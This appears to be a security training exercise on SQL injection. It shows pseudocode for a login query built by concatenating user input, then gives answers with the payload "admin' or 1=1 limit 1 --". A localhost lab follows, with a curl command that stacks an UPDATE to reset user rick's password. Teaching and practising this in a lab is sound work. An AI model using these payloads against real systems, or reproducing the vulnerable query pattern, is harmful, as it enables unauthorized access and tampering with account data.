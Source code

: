 ## Exercise 1 - SQL Injection

SQL injection is the ability of an attacker to execute arbitrary SQL into an insecurely created query. They might do this to attempt to gain access to the system, cause destruction by deleting rows, or list vital information that they should not have access to.

The way SQL injections are constructed is by the use of escape characters such as `'` which allows an attacker to escape out of the intended query with their own input and execute another query directly against the database.

For example, let's say we had some logic such as the following (in pseudocode):

```
username := user input from HTML form
password := user input from HTML form
hashedPassword := md5(password)

sql := "select * from admins where username = '" + username "' and password = '" + hashedPassword + "' limit 1"
executeQuery(sql)
```

This is a valid SQL string that is taking user input for username and password, hashing the password and comparing the hashed password to that in the database. This is a very common way to authenticate users to a platform, but is also easily able to be abused.

Let's say we are an attacker and want to execute some arbitrary SQL into this.

1. Which field would we exploit?
2. What string would we place into that field?
3. Who would this log us in as?

<details>
  <summary>Answer</summary>

  1. We would need to chose the `username` field in this case because if we chose the password field, our exploit would be hashed before it reaches the database.
  2. We could use something similar to the following as the `username` field to gain access:
  ```
  admin' or 1=1 limit 1 --
  ```
  **Followup Question: Why do we need the `--`?**
  3. This would log us in as the first admin depending on the sort order.

</details>

# Lab

Try to exploit the endpoint `/login` using a SQL injection. A valid, but unauthorized request looks like this:

```
curl -XPOST -H 'Content-Type: application/json' -d '{"username":"rick", "password":"password"}' 'http://localhost:8080/login'
```

Try to gain access as the user `rick`.

]<details>
  <summary>Answer</summary>
    Though you may not be able to execute a 1=1 type login, you can still update the password and re-login a separate time

    ```
    $ curl -XPOST -H 'Content-Type: application/json' -d "{\"username\":\"rick'; update users set password=md5('password') where username = 'rick' --\", \"password\":\"foo\"}" 'http://localhost:8080/login'
    ```

    We should get an error and that's fine, we've broken the JDBC parser and successfully changed `rick`s password to something we know: `password`. Now try loggin in with that password:

    ```
    $ curl -XPOST -H 'Content-Type: application/json' -d '{"username":"rick", "password":"password"}' 'http://localhost:8080/login' | jq .
    ```

</details>
